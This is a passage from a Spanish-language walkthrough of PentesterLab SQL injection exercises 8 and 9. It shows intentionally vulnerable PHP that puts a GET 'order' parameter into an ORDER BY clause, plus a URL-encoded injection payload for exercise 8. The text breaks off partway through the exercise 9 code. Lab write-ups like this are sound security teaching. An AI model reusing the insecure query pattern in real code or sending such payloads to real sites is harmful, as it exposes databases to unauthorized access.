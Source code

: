 Servidor
```php
<?php

  require_once('../header.php');
  require_once('db.php');
  //PAY ATTENTION HERE --------------------------------
    $sql = "SELECT * FROM users ORDER BY `";
    $sql .= mysql_real_escape_string($_GET["order"])."`";
    $result = mysql_query($sql);
  // ---------------------------------------------  
    if ($result) {
        ?>
        <table  class='table table-striped'>
        <tr>
            <th><a href="example8.php?order=id">id</th>
            <th><a href="example8.php?order=name">name</th>
            <th><a href="example8.php?order=age">age</th>
        </tr>
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr>";
                echo "<td>".$row['id']."</td>";
                echo "<td>".$row['name']."</td>";
                echo "<td>".$row['age']."</td>";
            echo "</tr>";
        }    
        echo "</table>";
    }
    require '../footer.php';
?>
```

Entonces para que la sentencia tome como variable 'name' tenemos dos opciones:
- ponerla directamente ORDER BY name
- ponerla entre tildes ORDER BY \`name\`

Por lo que podemos construir el payload de la siguiente manera (%23 es  la almohadilla # encodeada):

PAYLOAD
```
http://pentesterlab/sqli/example8.php?order=name`%20%23%20or%20order=name`,`name`
```
## Ejercicio 9

 El último ejercicio de SQLi es similar al anterior, pero ya no se usan tildes (\`) para la variable:

 Servidor
 ```php
 <?php
  require_once('../header.php');
  require_once('db.php');
  //PAY ATTENTION HERE ---------------------------
    $sql = "SELECT * FROM users ORDER BY ";
  $sql .= mysql_real_escape_string($_GET["order"]);
    $result = mysql_query($sql);
  // --------------------------------------------------
    if ($result) {
        ?>
        <table class='table table-striped'>
        <tr>
            <th><a href="example9.php?order=id">id</th>
            <th><a href="example9.php?order=name">name</th>
            <th><a href="example9.php?order=age">age</th>
 ```